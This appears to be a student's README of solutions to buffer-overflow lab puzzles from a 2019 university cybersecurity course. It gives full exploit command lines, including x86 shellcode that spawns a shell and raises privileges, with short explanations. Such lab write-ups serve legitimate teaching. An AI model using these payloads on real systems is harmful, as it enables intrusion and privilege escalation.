 # Emory Fall 2019: CS453: Cybersecurity

The labs are on platform.adversary.io. They consisted of binary bombs, web exploit exercises, and binary exploits.
This folder only contains the binary exploit puzzles and their solutions.

## Overflow 1

Solution:__
./overflow aaaabbbbccccdddd$(perl -e 'print "\x48\x43\x4b\x52"')__
Pretty standard overflow: just had to input the location for secret after filling up the buffer.


## Overflow 2

Solution:__
$(perl -e 'print "\x90" x (256-40)')$(perl -e 'print "\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x43" ')AAAAAAAAAAAA$(perl -e 'print "\xe8\xd4\xff\xff"')__
The idea is to fill up the buffer, leaving 40 bytes of room for the shellcode. Then, overwrite the ebp, and return into the buffer. Some extra padding was used for stack alignment. 

## Chained Overflow
Solution:__
echo $(perl -e 'printf "\x11" x 4')$(perl -e 'print "\x90" x 3812')$(perl -e 'print "\x90" x (256-55)')$(printf "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\xeb\x18\x5b\xb8\xf5\xff\xff\xff\xf7\xd8\x31\xd2\x88\x53\x07\x89\x5b\x08\x89\x53\x0c\x8d\x4b\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x43\x45")$(printf "\x97\x6c\x6c\xe8\xd4\xff\xff") > temp.hex__
cat temp.hex - | ./overflow RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08")
run RUSHKEKEKE$(perl -e 'printf "\x2e"x9')$(printf "\x34\xa9\x87\x04\x08") < temp.hex__
This was a hard one.
